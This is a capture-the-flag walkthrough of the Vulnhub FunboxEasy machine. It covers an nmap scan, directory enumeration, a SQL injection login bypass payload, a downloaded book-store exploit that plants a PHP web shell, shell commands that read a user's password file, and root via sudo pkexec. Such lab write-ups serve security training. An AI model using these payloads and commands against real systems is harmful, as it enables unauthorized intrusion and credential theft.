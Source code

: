 ```yaml
---
layout: default
title : muzec - FunboxEasy Writeup
---
```


![f1](https://user-images.githubusercontent.com/69868171/99809925-55748680-2ad6-11eb-957f-57f5ade09327.PNG)


Boot2Root ! Easy going, but with this Funbox you have to spend a bit more time. Much more, if you stuck in good traps. But most of the traps have hints, that they are traps.
Vulnhub link to download FunboxEasy:- [FunboxEasy](https://www.vulnhub.com/entry/funbox-3,526/)

We always start with an nmap scan.....


```Nmap -sC -sV -oA nmap <Target-IP>```

```
Nmap scan report for 192.168.250.111
Host is up (0.27s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_gym
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Nov 17 04:15:11 2020 -- 1 IP address (1 host up) scanned in 67.65 seconds
```

Ok let hit the robots.txt on port 80.

![f2](https://user-images.githubusercontent.com/69868171/99810866-acc72680-2ad7-11eb-979b-4937b8070eff.PNG)

Gym let try to access it with the IP/gym

![f3](https://user-images.githubusercontent.com/69868171/99811300-4ee70e80-2ad8-11eb-9787-eba0b03d4c55.PNG)

I spend a little time trying to get the right credentials but no luck so i decided to burst some directorys with dirbuster i think the robots.txt is the first rabbit hole lol.

![f4](https://user-images.githubusercontent.com/69868171/99813851-886d4900-2adb-11eb-919b-9052f4ea4ba8.PNG)

Another dir let check it out.

![f5](https://user-images.githubusercontent.com/69868171/99813965-aaff6200-2adb-11eb-977c-0dc2cfc69e38.PNG)

Small CRM Projects admin login page let try to check for some default credentials or maybe a vulnerable to get in.

![f6](https://user-images.githubusercontent.com/69868171/99814322-27924080-2adc-11eb-8aa4-2db2cebc2e91.PNG)

Description:
There is a SQL injection vulnerability in the /index.php page
which allows for an attacker to use the SQLi login bypass payload
'=''or' for both the username and password parameters, this allows
for any authenticated or low level user to login to the admin account.

![f7](https://user-images.githubusercontent.com/69868171/99814724-b1420e00-2adc-11eb-95b4-cbf388c66096.PNG)

Boom we are in but it just another rabbit hole 2 lol let enumerate more let go back to our dirbuster to check more dir.

![f8](https://user-images.githubusercontent.com/69868171/99814940-02520200-2add-11eb-8572-88d1cd2949f4.PNG)

The store dir look interesting let hit it.

![f9](https://user-images.githubusercontent.com/69868171/99815180-4ba25180-2add-11eb-836b-18967b4636c2.PNG)

Online book store by projectworlds pretty old also 2017 cool.

![f10](https://user-images.githubusercontent.com/69868171/99815965-60cbb000-2ade-11eb-9456-8a782ae8451e.PNG)

Let download and try the exploit.

![f11](https://user-images.githubusercontent.com/69868171/99816436-01ba6b00-2adf-11eb-8fc1-5f25d5a98821.PNG)

Boom finally we are in.

![f12](https://user-images.githubusercontent.com/69868171/99816828-77bed200-2adf-11eb-9f3c-a0ca49510e27.PNG)

```http://192.168.250.111/store/bootstrap/img/B8Wsi38YLp.php?cmd=ls -la /home```

![f13](https://user-images.githubusercontent.com/69868171/99817286-0f242500-2ae0-11eb-8219-7102924adefb.PNG)

```http://192.168.250.111/store/bootstrap/img/B8Wsi38YLp.php?cmd=ls -la /home/tony```

![f14](https://user-images.githubusercontent.com/69868171/99818458-9625cd00-2ae1-11eb-9526-836999c291d5.PNG)

```http://192.168.250.111/store/bootstrap/img/B8Wsi38YLp.php?cmd=less /home/tony/password.txt```

![f15](https://user-images.githubusercontent.com/69868171/99818871-10eee800-2ae2-11eb-82c8-4854720583cd.PNG)

Boom we have the ssh password also the username which is tony let hit ssh.

![f16](https://user-images.githubusercontent.com/69868171/99819349-ae4a1c00-2ae2-11eb-975f-e9b4c616bda9.PNG)

ssh we are in first thing first let check sudo with ```sudo -l```

![f17](https://user-images.githubusercontent.com/69868171/99878635-448d4900-2b9a-11eb-8a4d-114e0b79eec9.PNG)

Plenty way to get root but let go with ```/usr/bin/pkexec``` let check [GTFOBins ](https://gtfobins.github.io/)

![f18](https://user-images.githubusercontent.com/69868171/99878755-d1380700-2b9a-11eb-801e-3ea18e3d8ac4.PNG)

Now let run ```sudo pkexec /bin/sh```

![f20](https://user-images.githubusercontent.com/69868171/99878796-368bf800-2b9b-11eb-9ba0-41c4bce883a5.PNG)

We are root Box Rooted.

Greeting From [Muzec](https://twitter.com/muzec_saminu)

<br> <br>
[Back To Home](../index.md)
<br>
